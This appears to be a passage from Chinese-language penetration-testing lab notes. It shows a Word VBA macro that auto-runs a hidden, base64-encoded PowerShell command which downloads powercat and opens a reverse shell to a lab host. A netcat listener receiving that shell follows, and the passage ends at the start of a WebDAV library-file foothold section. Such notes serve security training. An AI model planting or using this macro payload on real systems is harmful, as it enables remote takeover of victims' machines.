 (5) 加入經過 python 分割的字串
```WScript
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
> 編輯完後，儲存重開檔案

>[!Tip]
> 重啟 Word 時，不再顯示 security warning\
> (除非更改檔名才需要再次確認 Enable Content )

(6) 在 PowerCat 目錄下啟動 Python3 Web Server, 同時開啟 Netcat listening port
```
┌──(chw㉿CHW-kali)-[/]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents>
```

### - Obtaining Code Execution via Windows Library Files (Webdav & .link)
Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares
#### 1. Windows library files to gain a foothold on the target system
##### - (1) 建立 [WebDAV](https://zh.wikipedia.org/zh-tw/WebDAV) 連接共享 Windows library
  >[!Note]
  > `WebDAV` (Web Distributed Authoring and Versioning)\
  > 基於 HTTP 協議的擴展，允許 user 遠端上傳、下載、刪除和編輯伺服器上的文件
            